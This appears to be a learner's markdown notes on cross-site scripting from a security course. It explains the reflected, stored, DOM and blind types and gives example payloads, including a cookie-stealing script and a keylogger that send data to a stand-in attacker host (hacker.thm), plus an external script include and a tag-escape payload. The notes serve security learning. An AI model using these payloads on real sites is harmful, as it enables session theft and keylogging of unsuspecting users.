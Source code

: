 # XSS

## Payloads

Consists of two parts:

	- Intention. Part of the payload that actually does what we want it to do.
	- Modification. Part of the payload that changes the code.

Examples:

- Proof of concept:
~~~
<script>alert('XSS');</script>
~~~

- Session stealing (takes targets cookies, base64 encodes them and posts to hacker website.)

~~~
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
~~~

- Key logger (forwards key logs to website under hackers control)

~~~
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
~~~

- Bussiness Logic (often very specific. Calls javascript function to do something, case below )

~~~
<script>user.changeEmail('attacker@hacker.thm');</script>
~~~

## Types of XSS.

### Reflected.

Happens when user-supplied data in a HTTP request is reflected onto the web page without any validation.

Example:

A website returns an error message after incorrect input.

~~~
http://www.website.com/?error=Invalid Input

<div class="alert danger">
<p>Invalid Input</p?
</div>	
~~~

However this website doesn't check the contents of the error parameter then this can be changed to:

~~~
http://www.website.com/?error=<script src="http://evil.script.js"></script>

<div class="alert danger">
<p><script src="http://evil.script.js"></script></p>
</div>
~~~

Test for reflected xss:
	- Parameters in URL string
	- URL File path
	- HTTP headers (though rare)
	- check source code to see if parts of the url are reflected in the code.


### Stored XSS

XSS payload is stored on site and gets run everytime the webpage is loaded.

Example:

A website doesn't check user input in comments. The xss is stored in database and loaded everytime the webpage is loaded.

Test for stored xss:
	- Comments on blog
	- User profile information
	- Website listings.

### DOM XSS.

DOM is Document Object Model and is the programming interface for HTML/XML. Represents the page so that programmes can change the page document style/content etc.

DOM based XSS is where javascript execution happens directly in the browser without any new pages being loaded or data submitted to the backend.

Example:

A website gets the content from windows.location.hash parameter and writes onto current page. If the contents of the hash aren't checked then code can be injected.

Test for DOM XSS:
	- Look for code that an attacker can control over i.e "windows.location.x"
	- Check for eval() code


### Blind XSS

Similar to stored but is the payload is processed by the backend and can't be seen or tested for.

Example:

A website has a support form that doesn't check for XSS payloads. The message gets turned into a support ticket and can only be viewed by admins.

Test for blind xss:
	- Ensure payload has callback (i.e a http request)



## Perfecting payloads


Basic payload
~~~
<script>alert('hi')</script> 
~~~

Escape input tags
~~~
"><script>alert('hi')</script> 
~~~



